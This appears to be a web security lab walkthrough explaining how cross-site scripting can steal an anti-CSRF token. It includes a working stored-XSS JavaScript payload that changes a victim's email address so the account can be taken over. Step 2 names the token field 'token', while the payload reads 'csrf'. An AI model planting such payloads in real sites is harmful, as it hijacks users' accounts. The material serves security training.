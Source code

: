 ## 🔐 Using Cross-Site Scripting to Bypass CSRF Protection

XSS allows an attacker to do almost anything that a legitimate user can do on a website. By executing arbitrary JavaScript in the victim's browser, XSS enables you to perform a wide range of actions as if you were the victim. For example, you can make the victim send a message, accept a friend request, commit a backdoor in a source code repository, or transfer some bitcoins.

Some websites allow logged-in users to change their email address without re-entering their password. If you find an XSS vulnerability on one of these sites, you can exploit it to steal the CSRF token. Using the token, you can change the victim’s email address to one under your control. Then you can initiate a password reset to gain access to the account.

This type of exploit combines XSS (to steal the CSRF token) with functionality usually targeted by CSRF. While traditional CSRF is a "one-way" vulnerability, where the attacker can make the victim send requests but cannot see the responses, XSS provides "two-way" communication. This enables the attacker to send arbitrary requests and read the responses, resulting in a hybrid attack that bypasses CSRF protections.

> **Note**: CSRF tokens are ineffective against XSS because XSS allows attackers to directly read token values from responses.

### 🔬 Example Lab: Stealing CSRF Token to Change Email Address
This lab contains a stored XSS vulnerability in the blog comment feature. To solve this lab, exploit the vulnerability to steal the CSRF token, which can then be used to change the email address of anyone viewing the blog post comments.

You can log into your account using the following credentials: `wiener:peter`.

**Hint:** You cannot register an email address that is already taken by another user. If you change your email address during testing, use a different email address for the final exploit sent to the victim.

### Steps:

1. Log in using the provided credentials. On the user account page, observe the email update functionality:

   ![image](https://github.com/user-attachments/assets/03a01c4f-372d-442d-b715-c58762235be6)

2. You need to send a `POST /my-account/change-email` request with the `email` parameter. The hidden input contains an anti-CSRF token named `token`.
   This means your exploit will need to load the user account page, extract the CSRF token, and then use it to change the victim's email address.

3. Submit the following payload in a blog comment:

   ```html
   <script>
   var req = new XMLHttpRequest();
   req.onload = handleResponse;
   req.open('get', '/my-account', true);
   req.send();
   function handleResponse() {
       var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
       var changeReq = new XMLHttpRequest();
       changeReq.open('post', '/my-account/change-email', true);
       changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
       changeReq.send('csrf=' + token + '&email=test@test.com');
   };
   </script>
   ```

4. This will make anyone who views the comment send a POST request to change their email address to `test@test.com`.

